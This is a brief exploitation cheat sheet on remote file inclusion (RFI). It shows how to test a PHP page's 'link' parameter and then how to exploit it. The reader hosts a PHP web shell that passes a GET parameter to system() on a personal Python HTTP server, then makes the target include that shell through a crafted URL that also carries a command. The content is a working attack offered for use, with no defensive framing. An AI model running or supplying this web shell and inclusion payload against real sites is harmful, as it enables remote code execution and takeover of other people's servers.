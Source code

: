 ```yaml
---
description: Remote File Inclusion
---
```


# RFI | How to find && exploit

Context URL:

```
https://example.com/example/page.php?link=https://site2.com
```

When you try to change the second URL to hacker, ex:

```
https://example.com/example/page.php?link=hacker
```

The server possibly shows 2 **warnings**

### Exploit:

#### 1 - Make a personal server with python and shell.html:

**Create a server on port 8000:**

```
python3 -m http.server
```

**shell.html:**

```php
<?php
system($_GET['hack']);
?>
```

#### 2 - On the server, try to connect with your personal python server:

```
https://example.com/example/page.php?link=http://ip:port/shell.php&hack=command
```
